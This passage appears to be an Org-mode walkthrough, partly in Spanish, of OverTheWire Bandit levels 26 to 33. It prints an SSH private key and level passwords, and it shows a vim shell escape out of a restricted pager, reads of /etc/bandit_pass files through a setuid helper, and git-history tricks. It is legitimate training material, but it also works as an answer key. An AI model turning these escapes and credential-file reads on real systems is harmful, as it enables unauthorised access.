3lgOIrT9Y6skRjsMSFmC6WN/O7ovu8QzGqxdywIDAQABAoIBAAaXoETtVT9GtpHW
qLaKHgYtLEO1tOFOhInWyolyZgL4inuRRva3CIvVEWK6TcnDyIlNL4MfcerehwGi
il4fQFvLR7E6UFcopvhJiSJHIcvPQ9FfNFR3dYcNOQ/IFvE73bEqMwSISPwiel6w
e1DjF3C7jHaS1s9PJfWFN982aublL/yLbJP+ou3ifdljS7QzjWZA8NRiMwmBGPIh
Yq8weR3jIVQl3ndEYxO7Cr/wXXebZwlP6CPZb67rBy0jg+366mxQbDZIwZYEaUME
zY5izFclr/kKj4s7NTRkC76Yx+rTNP5+BX+JT+rgz5aoQq8ghMw43NYwxjXym/MX
c8X8g0ECgYEA1crBUAR1gSkM+5mGjjoFLJKrFP+IhUHFh25qGI4Dcxxh1f3M53le
wF1rkp5SJnHRFm9IW3gM1JoF0PQxI5aXHRGHphwPeKnsQ/xQBRWCeYpqTme9amJV
tD3aDHkpIhYxkNxqol5gDCAt6tdFSxqPaNfdfsfaAOXiKGrQESUjIBcCgYEAxvmI
2ROJsBXaiM4Iyg9hUpjZIn8TW2UlH76pojFG6/KBd1NcnW3fu0ZUU790wAu7QbbU
i7pieeqCqSYcZsmkhnOvbdx54A6NNCR2btc+si6pDOe1jdsGdXISDRHFb9QxjZCj
6xzWMNvb5n1yUb9w9nfN1PZzATfUsOV+Fy8CbG0CgYEAifkTLwfhqZyLk2huTSWm
pzB0ltWfDpj22MNqVzR3h3d+sHLeJVjPzIe9396rF8KGdNsWsGlWpnJMZKDjgZsz
JQBmMc6UMYRARVP1dIKANN4eY0FSHfEebHcqXLho0mXOUTXe37DWfZza5V9Oify3
JquBd8uUptW1Ue41H4t/ErsCgYEArc5FYtF1QXIlfcDz3oUGz16itUZpgzlb71nd
1cbTm8EupCwWR5I1j+IEQU+JTUQyI1nwWcnKwZI+5kBbKNJUu/mLsRyY/UXYxEZh
ibrNklm94373kV1US/0DlZUDcQba7jz9Yp/C3dT/RlwoIw5mP3UxQCizFspNKOSe
euPeaxUCgYEAntklXwBbokgdDup/u/3ms5Lb/bm22zDOCg2HrlWQCqKEkWkAO6R5
/Wwyqhp/wTl8VXjxWo+W+DmewGdPHGQQ5fFdqgpuQpGUq24YZS8m66v5ANBwd76t
IZdtF5HXs2S5CADTwniUS5mX1HO9l5gUkk+h0cH5JnPtsMCnAUM+BRY=
-----END RSA PRIVATE KEY-----
#!/bin/sh

export TERM=linux

exec more ~/text.txt
exit 0
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
#+end_example

* Level 26

#+begin_src bash :results output verbatim
cat <<EOF > bandit26.sshkey
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEApis2AuoooEqeYWamtwX2k5z9uU1Afl2F8VyXQqbv/LTrIwdW
pTfaeRHXzr0Y0a5Oe3GB/+W2+PReif+bPZlzTY1XFwpk+DiHk1kmL0moEW8HJuT9
/5XbnpjSzn0eEAfFax2OcopjrzVqdBJQerkj0puv3UXY07AskgkyD5XepwGAlJOG
xZsMq1oZqQ0W29aBtfykuGie2bxroRjuAPrYM4o3MMmtlNE5fC4G9Ihq0eq73MDi
1ze6d2jIGce873qxn308BA2qhRPJNEbnPev5gI+5tU+UxebW8KLbk0EhoXB953Ix
3lgOIrT9Y6skRjsMSFmC6WN/O7ovu8QzGqxdywIDAQABAoIBAAaXoETtVT9GtpHW
qLaKHgYtLEO1tOFOhInWyolyZgL4inuRRva3CIvVEWK6TcnDyIlNL4MfcerehwGi
il4fQFvLR7E6UFcopvhJiSJHIcvPQ9FfNFR3dYcNOQ/IFvE73bEqMwSISPwiel6w
e1DjF3C7jHaS1s9PJfWFN982aublL/yLbJP+ou3ifdljS7QzjWZA8NRiMwmBGPIh
Yq8weR3jIVQl3ndEYxO7Cr/wXXebZwlP6CPZb67rBy0jg+366mxQbDZIwZYEaUME
zY5izFclr/kKj4s7NTRkC76Yx+rTNP5+BX+JT+rgz5aoQq8ghMw43NYwxjXym/MX
c8X8g0ECgYEA1crBUAR1gSkM+5mGjjoFLJKrFP+IhUHFh25qGI4Dcxxh1f3M53le
wF1rkp5SJnHRFm9IW3gM1JoF0PQxI5aXHRGHphwPeKnsQ/xQBRWCeYpqTme9amJV
tD3aDHkpIhYxkNxqol5gDCAt6tdFSxqPaNfdfsfaAOXiKGrQESUjIBcCgYEAxvmI
2ROJsBXaiM4Iyg9hUpjZIn8TW2UlH76pojFG6/KBd1NcnW3fu0ZUU790wAu7QbbU
i7pieeqCqSYcZsmkhnOvbdx54A6NNCR2btc+si6pDOe1jdsGdXISDRHFb9QxjZCj
6xzWMNvb5n1yUb9w9nfN1PZzATfUsOV+Fy8CbG0CgYEAifkTLwfhqZyLk2huTSWm
pzB0ltWfDpj22MNqVzR3h3d+sHLeJVjPzIe9396rF8KGdNsWsGlWpnJMZKDjgZsz
JQBmMc6UMYRARVP1dIKANN4eY0FSHfEebHcqXLho0mXOUTXe37DWfZza5V9Oify3
JquBd8uUptW1Ue41H4t/ErsCgYEArc5FYtF1QXIlfcDz3oUGz16itUZpgzlb71nd
1cbTm8EupCwWR5I1j+IEQU+JTUQyI1nwWcnKwZI+5kBbKNJUu/mLsRyY/UXYxEZh
ibrNklm94373kV1US/0DlZUDcQba7jz9Yp/C3dT/RlwoIw5mP3UxQCizFspNKOSe
euPeaxUCgYEAntklXwBbokgdDup/u/3ms5Lb/bm22zDOCg2HrlWQCqKEkWkAO6R5
/Wwyqhp/wTl8VXjxWo+W+DmewGdPHGQQ5fFdqgpuQpGUq24YZS8m66v5ANBwd76t
IZdtF5HXs2S5CADTwniUS5mX1HO9l5gUkk+h0cH5JnPtsMCnAUM+BRY=
-----END RSA PRIVATE KEY-----
EOF
chmod 500 bandit26.sshkey
ssh -o StrictHostKeyChecking=no -i bandit26.sshkey bandit26@bandit.labs.overthewire.org -p 2220 /bin/bash <<EOF
Usar un terminal pequeño
En more, tecla v para editar con vim
En vim, cambiar la shell a /bin/bash
:set shell=/bin/bash
:! bash
EOF

#+end_src

Con la shell del 26:
#+begin_src bash
./bandit27-do  cat /etc/bandit_pass/*
#+end_src

#+begin_results
YnQpBuifNMas1hcUFk70ZmqkhUU2EuaS
#+end_results

* Level 27
#+begin_src bash :results output verbatim
sshpass -p YnQpBuifNMas1hcUFk70ZmqkhUU2EuaS git clone ssh://bandit27-git@bandit.labs.overthewire.org:2220/home/bandit27-git/repo
cat repo/*
#+end_src

#+RESULTS:
: total 20
: drwxr-xr-x  2 root root 4096 Oct  5 06:19 .
: drwxr-xr-x 70 root root 4096 Oct  5 06:20 ..
: -rw-r--r--  1 root root  220 Jan  6  2022 .bash_logout
: -rw-r--r--  1 root root 3771 Jan  6  2022 .bashrc
: -rw-r--r--  1 root root  807 Jan  6  2022 .profile
: The password to the next level is: AVanL161y9rsbcJIsFHuw35rjaOM19nR


* Level 28

#+begin_src bash :results output verbatim
sshpass -p AVanL161y9rsbcJIsFHuw35rjaOM19nR ssh bandit28@bandit.labs.overthewire.org -p 2220 <<EOF
ls -la
EOF
#+end_src

#+begin_src bash :results output verbatim
rm -r repo
sshpass -p AVanL161y9rsbcJIsFHuw35rjaOM19nR git clone ssh://bandit28-git@bandit.labs.overthewire.org:2220/home/bandit28-git/repo
cat repo/*
#+end_src

#+RESULTS:
: # Bandit Notes
: Some notes for level29 of bandit.
: 
: ## credentials
: 
: - username: bandit29
: - password: xxxxxxxxxx
: 

Hay que usar la historia del git
* Level 29
#+begin_src bash :results output verbatim
rm -r repo
sshpass -p tQKvmcwNYcFS6vmPHIUSI3ShmsrQZK8S git clone ssh://bandit29-git@bandit.labs.overthewire.org:2220/home/bandit29-git/repo
cat repo/*
#+end_src

#+RESULTS:
: # Bandit Notes
: Some notes for bandit30 of bandit.
: 
: ## credentials
: 
: - username: bandit30
: - password: <no passwords in production!>
: 

Hay que usar la historia del git

xbhV3HpNGlTIdnjUrdAlPzc2L6y9EOnS

* Level 30
#+begin_src bash :results output verbatim
rm -r repo
sshpass -p xbhV3HpNGlTIdnjUrdAlPzc2L6y9EOnS git clone ssh://bandit30-git@bandit.labs.overthewire.org:2220/home/bandit30-git/repo
cat repo/*
pushd repo
sshpass -p xbhV3HpNGlTIdnjUrdAlPzc2L6y9EOnS git fetch --tags origin
git show secret
popd
#+end_src

#+RESULTS:
: just an epmty file... muahaha
: ~/.emacs.d/repo ~/.emacs.d
: OoffzGDlzhAlerFJ2cAiz1D41JW1Mhmt
: ~/.emacs.d

* Level 31
#+begin_src bash :results output verbatim
rm -r repo
sshpass -p OoffzGDlzhAlerFJ2cAiz1D41JW1Mhmt git clone ssh://bandit31-git@bandit.labs.overthewire.org:2220/home/bandit31-git/repo
pushd repo
sshpass -p OoffzGDlzhAlerFJ2cAiz1D41JW1Mhmt git fetch --tags origin
git log
popd
cat repo/*
pushd repo
echo "May I come in?" > key.txt
git add -f key.txt
git commit -m "May I come in?"
sshpass -p OoffzGDlzhAlerFJ2cAiz1D41JW1Mhmt git push origin master
#+end_src

#+RESULTS:
#+begin_example
~/.emacs.d/repo ~/.emacs.d
commit 12c8b5c836110b00471d51a3d59bfb5efc1d8020
Author: Ben Dover <noone@overthewire.org>
Date:   Thu Oct 5 06:19:47 2023 +0000

    initial commit
~/.emacs.d
This time your task is to push a file to the remote repository.

Details:
    File name: key.txt
    Content: 'May I come in?'
    Branch: master

~/.emacs.d/repo ~/.emacs.d
[master 93e1235] May I come in?
 1 file changed, 1 insertion(+)
 create mode 100644 key.txt

 rmCBvG56y58BXzv98yZGdO7ATVL5dW8y
#+end_example

* Level 32
#+begin_src bash :results output verbatim
sshpass -p rmCBvG56y58BXzv98yZGdO7ATVL5dW8y ssh bandit32@bandit.labs.overthewire.org -p 2220 <<EOF
\$0 # por alguna razón no funciona así, tiene que ser interactivo
cat /etc/bandit_pass/bandit33
EOF
#+end_src

#+RESULTS:
: WELCOME TO THE UPPERCASE SHELL
: >> >> >>
: odHo63fHiFqcWWJG9rLiLDtPm45KzUKy

* Level 33
#+begin_src bash :results output verbatim
sshpass -p odHo63fHiFqcWWJG9rLiLDtPm45KzUKy ssh bandit33@bandit.labs.overthewire.org -p 2220 <<EOF
cat *
EOF
#+end_src

#+RESULTS:
: Congratulations on solving the last level of this game!
: 
: At this moment, there are no more levels to play in this game. However, we are constantly working
: on new levels and will most likely expand this game with more levels soon.
: Keep an eye out for an announcement on our usual communication channels!
: In the meantime, you could play some of our other wargames.
: 
: If you have an idea for an awesome new level, please let us know!
